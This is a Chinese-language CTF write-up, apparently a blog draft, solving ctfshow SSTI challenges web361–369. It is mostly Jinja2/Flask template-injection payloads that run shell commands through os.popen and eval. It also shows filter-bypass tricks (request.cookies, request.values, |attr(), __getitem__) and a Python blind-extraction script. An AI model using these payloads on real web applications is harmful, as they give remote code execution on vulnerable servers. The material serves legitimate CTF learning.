 ```yaml
---
title: "Ctfshow Web入门[SSTI] Writeup"
date: 2022-08-23T19:05:46+08:00
lastmod: 2022-08-23T19:05:46+08:00
draft: true
author: "X1r0z"

tags: []
categories: []

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


<!--more-->

## web361

```
http://b32fe9fe-022c-426e-86e1-60f89fa6b833.challenge.ctf.show/?name={{''.__class__.__mro__[-1].__subclasses__()}}
```

找到 `<class 'os._wrap_close'>`

索引不太好找, 大致估一下然后微调

```
http://b32fe9fe-022c-426e-86e1-60f89fa6b833.challenge.ctf.show/?name={{''.__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

## web362

试了下发现 `__subclasses__()` 后的内容被过滤了, 不能访问列表里面的内容

换成 flask 里的内置类, 这里用 config

```
http://3d34ef4f-b839-44b9-b203-6a0bac9b3a96.challenge.ctf.show/?name={{ config.__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```

实际上随便一个不存在的类也可以执行成功, 因为 flask 单独对 undefined 的类做了包装

## web363

过滤了引号

用 request 逃逸

```
http://53fb7f41-e2e2-4c3b-be99-5698927a04f1.challenge.ctf.show/?name={{().__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__[request.args.a](request.args.b).read()}}&a=popen&b=cat /flag
```

## web364

过滤了引号和 request.args

换成 request.form 提示 `Method Not Allowed`

于是换成 request.cookies

```
http://d690e47a-453a-46a4-ae50-62777cc2ee8c.challenge.ctf.show/?name={{xx.__init__.__globals__[request.cookies.a][request.cookies.b](request.cookies.c)}}
```

cookie 内容为 `a=__builtins__; b=eval; c=__import__('os').popen('cat /flag').read()`

后来发现用 requests.values 也行, 同时接收 get 和 post 的数据

## web365

同上, 还过滤了 `[]`

使用 `__getitem__()` 绕过

```
http://c2ffa348-5bb5-4f54-afb4-d5bbcb941b57.challenge.ctf.show/?name={{xx.__init__.__globals__.__getitem__(request.values.a).eval(request.values.b)}}&a=__builtins__&b=__import__('os').popen('cat /flag').read()
```

## web366

还过滤了下划线

通过 `|attr()` 过滤器绕过

```
http://36f7bb7e-2b2d-4455-aaf5-6c3a4e42ec5b.challenge.ctf.show/?name={{(xx|attr(request.values.a)|attr(request.values.b)).get(request.values.c).eval(request.values.d)}}&a=__init__&b=__globals__&c=__builtins__&d=__import__('os').popen('cat /flag').read()
```

注意 get() 前面的内容需要用括号包一次, 不然后面的语句会被认为是过滤器的代码

## web367

听说是过滤了 os?

payload 同上

## web368

过滤了 `{{}}`

貌似不出网, 用盲注试试

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208232146485.png)

python 脚本

```python
import requests

dicts = 'ctfshow{abde-0123456789}'

flag = ''

for i in range(100):
    for s in dicts:
        url = 'http://7606dc4d-5a13-4131-8496-cd184cf9f1ea.challenge.ctf.show/'
        params = {
            'name': '{% if (xx|attr(request.values.a)|attr(request.values.b)).get(request.values.c).eval(request.values.d) == request.values.e%}OK{%endif%}',
            'a': '__init__',
            'b': '__globals__',
            'c': '__builtins__',
            'd': "__import__('os').popen('cat /flag').read()[" + str(i) + "]",
            'e': s
        }
        res = requests.get(url,params=params)
        if 'OK' in res.text:
            flag += s
            print(flag)
            break
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208232157916.png)

wp 上看到直接 print 就行...

```
http://7606dc4d-5a13-4131-8496-cd184cf9f1ea.challenge.ctf.show/
?name={%print((xx|attr(request.values.a)|attr(request.values.b)).get(request.values.c).eval(request.values.d))%}&a=__init__&b=__globals__&c=__builtins__&d=__import__('os').popen('cat /flag').read()
```

或者是 `{% set x=....%}` 设置一个变量, 然后再把变量打印出来

## web369

又过滤了 request

